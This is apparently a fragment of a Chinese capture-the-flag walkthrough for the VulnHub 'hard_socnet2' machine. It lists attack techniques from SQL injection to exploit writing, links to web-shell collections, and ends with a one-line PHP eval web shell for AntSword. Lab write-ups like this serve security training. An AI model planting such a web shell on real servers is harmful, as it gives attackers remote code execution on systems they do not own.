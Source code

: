 > 靶机环境介绍
+ [hard_socnet2](https://www.vulnhub.com/entry/boredhackerblog-social-network-20,455/) 
+ 难度等级 <font color=red>高</font>

目标: 取得root权限

**所用技术栈：**
+ 主机发现
+ 端口扫描
+ SQL注入
+ 文件上传
+ 蚁剑上线
+ XMLRPC命令执行
+ 逆向工程
+ 动态调试
+ 漏洞利用代码编写



我们进行 `OPTIONS`,`DELETE`,`POST`,`GET`,`PUT` 等一系列方式对服务器进行请求

这个时候我们可以去访问其 80 端口


[AntSword Shell Script](https://github.com/AntSwordProject/AwesomeScript) 
[Many Demo Shell Download](https://privdayz.com/)


```php
<?php
@eval($_REQUEST['ant']);
show_source(__FILE__);
?>
```

